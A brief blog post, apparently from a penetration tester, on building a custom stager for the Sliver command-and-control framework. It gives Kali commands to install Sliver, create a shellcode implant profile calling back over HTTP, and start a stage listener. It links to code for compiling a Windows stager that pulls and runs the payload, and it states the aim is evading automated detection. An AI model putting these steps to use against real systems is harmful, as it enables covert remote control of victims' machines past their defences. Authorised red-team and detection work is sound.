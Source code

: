 ```yaml
---
title: "custom sliver stager"
date: "2023-01-08"
layout: post
---
```


First all props go to Dominic doing all the hard work and if you want to know the nitty gritty plus different ways of getting custom stagers up and running go check out his write up.

[https://dominicbreuker.com/post/learning\_sliver\_c2\_06\_stagers/](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)


My experience is that custom stagers can help evade automated detection mechanisms but realizing it's always a cat and mouse game these are just the steps that have worked for me as of this write up.

Sliver instructions within Kali

```bash
apt-get install sliver
sliver-server
profiles new --http IP:80 --format shellcode name
stage-listener --url http://IP:80 --profile name
```

Above the IP is the C2 server / Kali IP address and the 'name' refers to the unique name you assign it on the command line. Once that's done then head over to your windows target and compile the stager following the simple instructions below.

[https://github.com/travisaltman/sliver-c-stager/blob/main/README.md](https://github.com/travisaltman/sliver-c-stager/blob/main/README.md)

After executing the compiled exe you should hopefully have a session within Sliver to continue your post exploitation goodness.
